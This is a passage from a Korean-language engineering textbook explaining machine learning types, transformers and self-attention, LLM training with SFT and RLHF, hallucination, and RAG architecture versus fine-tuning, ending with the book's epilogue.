- **원리:** 정답 라벨(Y) 없이 오직 원천 데이터(X)만 제공합니다. 데이터 자체의 통계적 유사성과 군집 구조를 컴퓨터가 스스로 탐색합니다.
- **군집화 (Clustering):** 비슷한 특징을 가진 데이터끼리 무리를 짓습니다.
  - *비즈니스 활용:* 이커머스에서 고객의 구매 주기, 장바구니 품목 데이터를 바탕으로 마케팅 타깃 고객군(알뜰족, 얼리어답터, 명품 선호족) 자동 세분화.
- **이상치 탐지 (Anomaly Detection):** 전체 데이터의 일반적인 분포에서 벗어나는 이상한 징후를 포착합니다.
  - *비즈니스 활용:* 신용카드 FDS(이상 금융거래 탐지) - 한국에서 결제하던 카드가 10분 뒤 나이지리아 ATM에서 거액 인출을 시도할 때 즉시 결제 차단.

#### 3. 강화학습 (Reinforcement Learning): 당근과 채찍을 통한 최적화
- **원리:** 데이터셋을 주는 대신, 가상 환경(Environment)에 에이전트(Agent)를 던져놓고 특정 행동(Action)을 취할 때마다 **보상(Reward, 당근)**이나 **페널티(Penalty, 채찍)**를 부여합니다. 에이전트는 시행착오를 거치며 장기적 누적 보상을 극대화하는 최적의 행동 정책(Policy)을 학습합니다.
- *비즈니스 활용:* 
  - 딥마인드의 **알파고(AlphaGo)**: 수천만 번의 자가 대국(Self-play)을 통해 인간이 가르쳐주지 않은 신의 한 수를 체득.
  - 물류 창고 자동화 로봇, 고성능 자율주행 알고리즘 제어.
  - **ChatGPT의 탄생 비밀:** 인간 피드백 기반 강화학습(RLHF)을 통해 언어 모델이 인간에게 무례하거나 위험한 대답을 피하고 친절하고 유용한 대답을 하도록 길들이는 핵심 기술.

---

## 10. (+) LLM과 생성형 AI는 어떻게 동작하나요?
> **트랜스포머(Transformer)의 혁신과 어텐션(Attention) 메커니즘, 사전학습(Pre-training)과 파인튜닝(Fine-tuning)/RLHF, RAG(검색 증강 생성) 아키텍처, AI 할루시네이션(환각) 극복 방안**

2022년 말 ChatGPT의 등장은 전 인류에게 거대한 기술적 충격을 안겨주었습니다. 과거의 AI가 "이 사진이 고양이인가 개인가?"를 맞히는 **판별형 AI(Discriminative AI)**였다면, 오늘날의 AI는 "존재하지 않는 환상적인 고양이 시를 짓고, 파이썬 코드를 작성하며, 변호사 시험을 통과하는" **생성형 AI(Generative AI)**로 진화했습니다. 그 중심에는 **LLM(Large Language Model, 거대 언어 모델)**이 있습니다.

---

### 10.1 패러다임의 혁명: 트랜스포머(Transformer)와 자가 어텐션(Self-Attention)

오늘날 ChatGPT(GPT-4), Gemini, Claude, LLaMA 등 모든 현대 거대 언어 모델의 뼈대가 된 단 하나의 기념비적인 논문이 있습니다. 바로 2017년 구글 연구팀이 발표한 **"Attention Is All You Need"**입니다.

```mermaid
flowchart TD
    subgraph RNN_Problem["과거의 방식: RNN / LSTM (순차적 처리의 병목)"]
        W1["단어 1 (나는)"] --> W2["단어 2 (어제)"] --> W3["단어 3 (학교에)"] --> W4["단어 4 (갔다)"]
        Note1["단어를 한 글자씩 차례대로 읽어야 함<br/>-> GPU 병렬 연산 불가, 문장이 길어지면 앞쪽 내용을 까먹음!"]
    end

    subgraph Transformer_Sol["트랜스포머 혁신: 자가 어텐션 (Self-Attention)"]
        AllWords["문장 전체 단어를 한 번에 통째로 입력!"]
        Matrix["모든 단어가 문장 내 다른 모든 단어와의 문맥적 연관성(가중치)을 동시 계산"]
        AllWords --> Matrix
        Note2["GPU 수만 대를 활용한 완벽한 대규모 병렬 학습 가능!<br/>인류 역사상 모든 웹 텍스트를 통째로 학습하는 문이 열림"]
    end
```

#### 트랜스포머가 이전 자연어 처리 모델(RNN)을 압살한 이유
1. **자가 어텐션 (Self-Attention) 메커니즘:**
   - 문장 속에서 어떤 단어가 다른 어떤 단어와 깊은 연관을 맺고 있는지를 수학적으로 계산합니다.
   - 예를 들어, *"동물이 길을 건너지 않았다. 왜냐하면 **그것(it)**이 너무 피곤했기 때문이다."*라는 문장에서, 컴퓨터는 '그것(it)'이 '길'인지 '동물'인지 알기 어렵습니다.
   - 자가 어텐션 메커니즘은 문장 내 모든 단어 간의 유사도 행렬을 계산하여, **'it'과 '동물(animal)' 사이의 어텐션 스코어(연관도)를 가장 높게 부여**함으로써 인간처럼 문맥을 완벽히 파악해 냅니다.
2. **GPU 분산 병렬 연산의 극대화:**
   - 단어를 시간 순서대로 하나씩 읽어야 했던 RNN과 달리, 트랜스포머는 문장 전체를 행렬 곱셈 연산으로 한 번에 밀어 넣습니다. 이로 인해 수만 개의 GPU 코어를 100% 활용할 수 있게 되었고, 비로소 테라바이트 단위의 초거대 말뭉치를 학습시킬 수 있게 되었습니다.

---

### 10.2 거대 언어 모델(LLM)의 3단계 탄생 파이프라인

수천억 개의 매개변수(Parameter)를 가진 LLM이 태어나 인간의 질문에 지혜롭게 답하기까지는 다음과 같은 3단계 과정을 거칩니다.

```mermaid
flowchart LR
    subgraph Step1["1. 사전 학습 (Pre-training)"]
        RawText["수조 개의 웹 텍스트 말뭉치\n(위키백과, 책, 깃허브 코드)"]
        BaseModel["파운데이션 베이스 모델\n(단순한 '다음 단어 맞히기' 기계)"]
        RawText -->|수천 개 GPU로 수개월 학습| BaseModel
    end

    subgraph Step2["2. 지도 파인튜닝 (SFT)"]
        Instruct["고품질 지시-응답 쌍\n(Q&A 대화 데이터셋)"]
        InstructModel["지시 이행 모델\n(질문에 정중히 답하는 법을 배움)"]
        BaseModel -->|SFT 학습| InstructModel
    end

    subgraph Step3["3. 인간 피드백 강화학습 (RLHF)"]
        HumanPref["인간 평가자 피드백\n(유용성, 진실성, 무해성 채점)"]
        AlignedLLM["최종 정렬된 상용 LLM\n(ChatGPT, Gemini)"]
        InstructModel -->|PPO/DPO 알고리즘 정렬| AlignedLLM
    end
```

1. **사전 학습 (Pre-training - 파운데이션 모델 구축):**
   - 인터넷에 존재하는 수조 개의 텍스트 토큰을 모아놓고, 모델에게 오직 한 가지만 시킵니다: **"앞의 단어들이 주어졌을 때, 통계적으로 바로 다음에 올 가장 그럴듯한 단어는 무엇인가? (Next-Token Prediction)"**
   - 수천 대의 최신 엔비디아 GPU 클러스터에서 수백억 원의 전기세를 쓰며 몇 달 동안 단어 맞히기를 반복하다 보면, 모델은 문법뿐만 아니라 역사, 철학, 수학 공식, 코딩 문법 등 인류의 지식 체계를 스스로 내부 가중치 신경망에 압축하여 각인하게 됩니다.
2. **지도 파인튜닝 (SFT: Supervised Fine-Tuning):**
   - 사전 학습만 끝난 베이스 모델은 인간의 질문에 제대로 답하지 못합니다. 예를 들어 "프랑스의 수도는 어디인가요?"라고 물으면 답변을 주는 대신 "스페인의 수도는 어디인가요? 독일의 수도는 어디인가요?"라며 다음 시험 문제를 계속 나열할 뿐입니다.
   - 전문가들이 정성껏 작성한 수만 건의 고품질 **"질문 - 모범 답변"** 대화 데이터를 학습시켜, 질문을 받으면 친절하게 대답하는 인터랙션 방식을 훈련시킵니다.
3. **인간 피드백 기반 강화학습 (RLHF / DPO):**
   - 모델이 폭탄 제조법을 알려주거나, 인종차별적 욕설을 내뱉거나, 거짓말을 그럴듯하게 하지 않도록 인간의 가치관과 윤리 기준에 맞추는 **'정렬(Alignment)'** 작업입니다.
   - 여러 개의 생성 답변 중 인간 평가자가 가장 선호하는 답변에 높은 점수를 부여하는 보상 모델(Reward Model)을 만들어 모델을 바람직한 방향으로 길들입니다.

---

### 10.3 LLM의 아킬레스건: 할루시네이션(Hallucination, 환각)

LLM을 기업 실무에 도입할 때 마주치는 가장 큰 장벽은 바로 **환각(할루시네이션)** 현상입니다.

> **할루시네이션이란?**  
> AI가 전혀 사실이 아닌 거짓 정보를 마치 대단히 확신에 찬 전문가처럼 유려하고 그럴듯한 언어로 지어내어 답변하는 현상입니다. (예: "조선왕조실록에 기록된 세종대왕의 맥북프로 던짐 사건에 대해 알려줘"라는 장난스런 질문에, 가상의 연도와 신하들의 이름을 지어내며 진지하게 서술하는 현상)

#### 환각이 발생하는 근본적인 기술적 원인
LLM은 사실(Fact)을 검증하는 진실 판별기가 아닙니다. LLM의 본질은 **"앞 단어에 이어질 확률이 가장 높은 단어를 수학적으로 이어 붙이는 통계적 앵무새(Stochastic Parrot)"**입니다. 학습 데이터에 없는 최신 정보나 기업 내부 기밀 문서를 물어보면, 모델은 "모릅니다"라고 답하기보다 확률적으로 가장 매끄러운 단어들을 조합해 그럴싸한 거짓말을 창작해 내는 것입니다.

---

### 10.4 환각을 극복하는 게임 체인저: RAG (검색 증강 생성)

기업들은 내부 데이터 유출 없이 최신 문서를 바탕으로 정확한 답변을 생성하기 위해 **RAG(Retrieval-Augmented Generation, 검색 증강 생성)** 아키텍처를 표준으로 도입하고 있습니다.

```
[RAG를 이해하는 가장 쉬운 비유: 오픈북 테스트]
- 순수 LLM: 학생의 머릿속 기억(사전학습 가중치)에만 의존해 시험을 치는 '폐쇄형 시험(Closed-book Exam)'.
  기억이 안 나거나 안 배운 문제가 나오면 엉뚱한 오답(환각)을 적어냅니다.
- RAG 시스템: 시험장에 '사내 최신 규정집과 매뉴얼 책'을 들고 들어가는 '오픈북 시험(Open-book Exam)'.
  문제를 받으면 먼저 책에서 관련 페이지를 찾아 펼친 뒤(Retrieval),
  그 페이지에 적힌 내용을 눈으로 확인하고 정확한 정답을 작성(Generation)합니다.
```

```mermaid
flowchart TD
    subgraph DataPrep["[오프라인 단계] 지식 문서 벡터화 및 색인"]
        Doc["기업 내부 문서 (PDF, Word, 사내 위키)"]
        Chunk["작은 문맥 단위로 쪼개기 (Chunking: 500자 단위)"]
        EmbModel1["임베딩 모델 (Text -> 고차원 벡터 변환)"]
        VecDB[("벡터 데이터베이스\n(Pinecone / Milvus / Chroma / pgvector)")]
        Doc --> Chunk --> EmbModel1 -->|수치 벡터 저장| VecDB
    end

    subgraph Runtime["[온라인 실시간 단계] 사용자 질의 및 RAG 답변 생성"]
        User(["사용자: 2026년 우리 회사 육아휴직 수당 규정 알려줘"])
        EmbModel2["임베딩 모델"]
        Search["코사인 유사도 검색 (Semantic Similarity Search)"]
        Prompt["프롬프트 엔지니어링\n[참고 문서]: 발췌된 사내 규정 3페이지 내용\n[질문]: 사용자의 질문\n위 참고 문서를 바탕으로만 사실대로 답하세요."]
        LLM["대형 언어 모델 (LLM)"]
        Answer(["최종 답변 생성:\n사내 규정 제12조에 의거하여 월 최대 250만 원이 지급됩니다. (출처: 2026_복무규정.pdf 3p)"])

        User --> EmbModel2
        EmbModel2 -->|질문 벡터| Search
        VecDB -.->|Top-K 관련 청크 검색| Search
        Search --> Prompt
        User -.-> Prompt
        Prompt --> LLM
        LLM --> Answer
    end
```

#### RAG 파이프라인의 엔지니어링 핵심 3단계
1. **임베딩(Embedding)과 벡터 DB 색인:**
   - 텍스트 문서들을 컴퓨터가 의미를 이해할 수 있는 수천 차원의 실수 숫자 배열(Vector)로 변환합니다. 의미가 비슷한 문장은 다차원 공간에서 서로 가까운 거리에 위치하게 됩니다.
   - 이렇게 변환된 수백만 개의 문장 벡터들을 초고속으로 공간 검색할 수 있도록 특화된 저장소가 바로 **벡터 데이터베이스(Vector DB)**입니다.
2. **유사도 기반 의미 검색 (Semantic Retrieval):**
   - 사용자가 질문을 던지면, 질문 문장 역시 동일한 임베딩 모델을 통해 벡터로 변환합니다.
   - 벡터 DB에서 질문 벡터와 각도(방향)가 가장 유사한 상위 K개(Top-K)의 문서 청크(Chunk)를 수학적인 **코사인 유사도(Cosine Similarity)** 연산으로 0.01초 만에 뽑아냅니다.
3. **컨텍스트 기반 생성 (Augmented Generation):**
   - 검색된 실제 문서 조각들을 프롬프트의 지침(Context)에 끼워 넣어 LLM에게 보냅니다.
   - *"너의 사전 지식으로 추측하지 말고, 제공된 다음 [참고 문서] 내용만을 엄격히 기반으로 하여 답변하고 출처를 명시해라."*
   - 결과적으로 모델은 환각을 일으키지 않고, 회사의 최신 보안 규정이나 제품 카탈로그를 완벽하게 반영한 정확무오한 답변을 출력하게 됩니다.

---

### 10.5 엔지니어를 위한 선택 가이드: RAG vs 파인튜닝(Fine-Tuning)

현업에서 생성형 AI 프로젝트를 시작할 때 가장 많이 갈등하는 의사결정 매트릭스입니다.

| 비교 기준 | RAG (검색 증강 생성) | 파인튜닝 (Fine-Tuning) |
| :--- | :--- | :--- |
| **주요 목적** | **최신 지식, 비공개 외부 데이터 주입 및 환각 방지** | **모델의 어투, 포맷, 특정 도메인 특화 스타일/문법 학습** |
| **데이터 업데이트** | 실시간 문서 추가 및 수정 즉시 반영 (DB 인서트) | 데이터가 바뀔 때마다 모델을 재학습(Re-training)해야 함 |
| **비용 및 컴퓨팅 자원** | 상대적으로 매우 저렴 (일반 인프라 + 벡터 DB) | 고가의 고성능 GPU 연산 자원과 지속적인 학습 비용 소모 |
| **환각(할루시네이션)** | 참조 문서를 강제하므로 환각이 획기적으로 억제됨 | 모델 자체의 가중치를 바꾸는 것이므로 환각 위험 잔존 |
| **출처 추적성** | 답변의 근거가 된 원본 문서 페이지를 정확히 링크 가능 | 블랙박스 가중치에 녹아있어 답변의 출처 제시 불가 |
| **추천 적용 사례** | 사내 지식 검색 챗봇, 법률/규정 Q&A, 최신 고객 상담 | 의료 전문 용어 번역기, 특정 회사 전용 SQL 생성기, 말투 복제 |

> **시니어 아키텍트의 황금률**  
> *"새로운 지식을 모델에게 가르치고 싶다면 먼저 **RAG**를 도입하십시오. 모델의 행동 양식, 특수 문법 출력, 응답 스타일 자체를 뼛속부터 개조해야 할 때 비로소 **파인튜닝**을 고려하십시오."*

---

## 에필로그: 미래를 항해하는 엔지니어를 위한 나침반

우리는 지금까지 소프트웨어 엔지니어링의 가장 깊은 기초부터, 인터넷을 통해 전 세계의 슈퍼 인프라를 지휘하는 **클라우드**, 폭발하는 디지털 문명의 혈액인 **빅데이터**, 그리고 마침내 기계가 언어와 지능을 구사하게 된 **인공지능**의 최전선까지 긴 항해를 함께 마쳤습니다.

이 세 가지 기술은 서로 분리된 섬이 아닙니다.
- **클라우드**라는 무한한 탄력성의 인프라가 없었다면 수만 대의 GPU를 엮어 거대 언어 모델을 학습시키는 것은 불가능했습니다.
- 전 세계 수십억 명의 상호작용을 담아낸 **빅데이터**라는 비옥한 연료가 없었다면 인공지능은 그 어떤 똑똑한 통찰도 얻어낼 수 없었을 것입니다.
- 그리고 **인공지능**은 다시 수억 대의 클라우드 서버와 데이터베이스를 스스로 자가 치유하고 최적화하는 궁극의 오케스트레이터로 진화하고 있습니다.

기술의 유행과 프레임워크의 이름은 계절처럼 빠르게 바뀌지만, 이 책을 관통하며 우리가 함께 탐구했던 **"문제를 격리하고, 복잡성을 추상화하며, 시스템의 신뢰성을 보장하는 공학적 원리와 철학"**은 10년, 20년 뒤에도 여러분의 손끝에서 변함없이 빛나는 나침반이 되어줄 것입니다. 

세상의 복잡한 문제를 소프트웨어의 힘으로 풀어내는 위대한 여정에 나선 모든 엔지니어 여러분의 건투를 진심으로 응원합니다.


